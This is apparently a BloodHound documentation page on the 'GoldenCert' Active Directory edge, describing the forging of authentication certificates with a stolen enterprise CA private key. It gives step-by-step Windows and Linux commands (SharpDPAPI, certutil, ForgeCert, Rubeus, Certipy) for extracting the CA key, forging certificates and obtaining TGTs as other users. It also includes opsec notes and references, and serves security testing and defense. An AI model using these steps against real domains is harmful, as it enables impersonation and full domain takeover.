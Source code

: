 ```yaml
---
title: GoldenCert
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.


The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key - using built-in GUI (certsrv.msc)

1.  Open certsrv.msc as Administrator on the enterprise CA host.
2.  Right-click on the enterprise CA and select "All Tasks" followed by "Back up CA...".
3.  Click "Next", select "Private key and CA certificate", and select the location folder.
4.  Click "Next", and set a password.
5.  Click "Next" and click "Finish" to back up the certificate as a .p12 file.

#### Step 2

Obtain CA certificate incl. private key - using commandline tools

* Print all certificates of the host using SharpDPAPI.  The enterprise CA certificate is the one where issuer and subject are identical.
```
SharpDPAPI.exe certificates /machine
```
* Save the private key in .key file (e.g. cert.key) and the certificate in .pem file (cert.pem) in the same folder.
* Create a .pfx version of the CA certificate using certutil:
```
certutil.exe -MergePFX .\\cert.pem .\\cert.pfx
```
* Set password when prompted.

#### Step 3

Forge certificate and obtain a TGT as targeted principal.

* Forge a certificate of a target principal using ForgeCert:
```
ForgeCert.exe --CaCertPath cert.pfx --CaCertPassword "password123!" --Subject "CN=User" --SubjectAltName "roshi@dumpster.fire" --NewCertPath target.pfx --NewCertPassword "NewPassword123!"
```
* Request a TGT for the targeted principal using the certificate with Rubeus:
```
Rubeus.exe asktgt /user:Roshi /domain:dumpster.fire /certificate:target.pfx /password:NewPassword123!
```
### Linux

#### Step 1

* Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy.  The enterprise CA certificate is the one where issuer and subject are identical.
```
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!
```
#### Step 2

Forge a certificate of a target principal:
```
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
* [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

